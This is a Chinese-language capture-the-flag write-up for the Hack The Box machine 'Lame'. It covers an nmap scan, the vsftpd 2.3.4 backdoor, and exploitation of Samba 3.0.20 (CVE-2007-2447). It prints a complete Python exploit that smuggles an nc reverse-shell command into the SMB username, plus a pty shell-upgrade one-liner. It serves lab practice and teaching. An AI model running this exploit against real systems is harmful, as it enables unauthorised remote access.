







nmap

```bash
nmap -T4 -Pn -A 10.10.10.3 -p 1-65535
```

扫描结果

```bash
Nmap scan report for 10.10.10.3
Host is up (0.26s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-04-02T04:51:23-04:00
|_clock-skew: mean: 2h07m46s, deviation: 2h49m45s, median: 7m43s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1047.56 seconds
```

首先是21端口 vsftpd 2.3.4版本搜索发现存在笑脸漏洞

原理是

```bash
此漏洞是开发者在软件中留下的后门漏洞，当连接带有vsftpd 2.3.4版本的服务器的21端口时，输入用户中带有":) "
(这大概就是此漏洞名字的来源）,密码任意，即可运行 vsf_sysutil_extra() ：打开服务器的6200端口，并且不需要密码
就能从6200端口以管理员身份登入目标服务器，漏洞危害很大。
```

但是通过复现后没办法利用

22端口

139、445端口

发现smbd 3.0.20-Debian服务，搜索了下发现存在cve



msf查找漏洞模块



配置



成功！



python升级交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

拿到flag



不使用mfs的话，也找到一个脚本执行

[https://github.com/ozuma/CVE-2007-2447](https://github.com/ozuma/CVE-2007-2447 "https://github.com/ozuma/CVE-2007-2447")

samba-exploit.py

```python
#!/usr/bin/python3

# Ref: https://github.com/amriunix/CVE-2007-2447/blob/master/usermap_script.py
# Ref: https://amriunix.com/post/cve-2007-2447-samba-usermap-script/
# Product: Samba
# Vuln: CVE-2007-2447
# Exploit-DB: https://www.exploit-db.com/exploits/16320
#
# install: pip3 install pysmb

import sys
import platform
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport, lhost, lport):
    payload = 'mkfifo /tmp/f; nc ' + lhost + ' ' + lport + ' 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f'
    username = "/=`nohup " + payload + "`"
    conn = SMBConnection(username,"","","")
    conn.connect(rhost, int(rport)) 


if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    if len(sys.argv) != 5:
        print("[-] usage: python " + sys.argv[0] + " <RHOST> <RPORT> <LHOST> <LPORT>")
        print("[-]  at another terminal, $ nc -lvnp <LPORT>")
    else:
        print("[+] Connecting")
        rhost = sys.argv[1]
        rport = sys.argv[2] # Usually 139/tcp
        lhost = sys.argv[3]
        lport = sys.argv[4]
        exploit(rhost, rport, lhost, lport)
```

```bash
#安装smb模块
pip3 install pysmb
#执行
python samba-exploit.py <RHOST> <RPORT> <LHOST> <LPORT>
```




